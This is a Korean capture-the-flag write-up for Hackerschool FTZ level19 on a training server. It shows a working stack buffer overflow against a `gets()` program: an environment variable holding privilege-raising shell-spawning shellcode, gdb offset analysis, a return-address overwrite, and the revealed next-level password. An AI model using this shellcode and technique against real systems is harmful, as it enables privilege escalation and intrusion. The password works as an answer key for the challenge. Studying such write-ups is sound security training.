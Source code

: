 ```yaml
---
layout: post
title: "Hackerschool FTZ-level19"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/06/14/
---
```

```bash
login as: level19
level19@~~~~'s password:
[level19@ftz level19]$ cat hint


main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}

[level19@ftz level19]$

```
level9/swimming in pink로 접속하자. 프로그램 소스는 굉장히 심플하다.

이전까지의 버퍼오버플로우 문제들은 setreuid 함수가 있었지만, 이번에는 없다.

그러므로 쉘 코드에 setreuid와 bash함수가 다 포함되어 있어야 한다.
```bash
[level19@ftz level19]$ export code=$(python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
```
이제 gdb로 buf의 크기를 확인하자.
```bash
[level19@ftz level19]$ gdb -q attackme
(gdb) set disas intel
(gdb) disas main
Dump of assembler code for function main:
0x08048440 <main+0>:    push   ebp
0x08048441 <main+1>:    mov    ebp,esp
0x08048443 <main+3>:    sub    esp,0x28
0x08048446 <main+6>:    sub    esp,0xc
0x08048449 <main+9>:    lea    eax,[ebp-40]
0x0804844c <main+12>:   push   eax
0x0804844d <main+13>:   call   0x80482f4 <gets>
0x08048452 <main+18>:   add    esp,0x10
0x08048455 <main+21>:   sub    esp,0x8
0x08048458 <main+24>:   lea    eax,[ebp-40]
0x0804845b <main+27>:   push   eax
0x0804845c <main+28>:   push   0x80484d8
0x08048461 <main+33>:   call   0x8048324 <printf>
0x08048466 <main+38>:   add    esp,0x10
0x08048469 <main+41>:   leave
0x0804846a <main+42>:   ret
```
main+9에서 buf를 사용하는 것이 보인다.

buf의 크기:ebp-40

buf(40)+SFP(4)=44이므로 44개의 값들을 채우면 RET에 접근할 수 있다.

환경변수의 주소값을 찾아보자.
```bash
[level19@ftz tmp]$ cd /tmp
[level19@ftz tmp]$ cat find.c
#include<stdio.h>
int main()
{
        printf("%x\n",getenv("code"));
}
[level19@ftz tmp]$ ./find
bfffff1b
[level19@ftz tmp]$
```
환경변수의 주소값:bfffff1b

이제 코드를 작성해보자.
```bash
[level19@ftz level19]$ (python -c 'print"\x90"*44+"\x1b\xff\xff\xbf"';cat)|./attackme
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
my-pass
TERM environment variable not set.

Level20 Password is "we are just regular guys".
```
level20's password:"we are just regular guys"
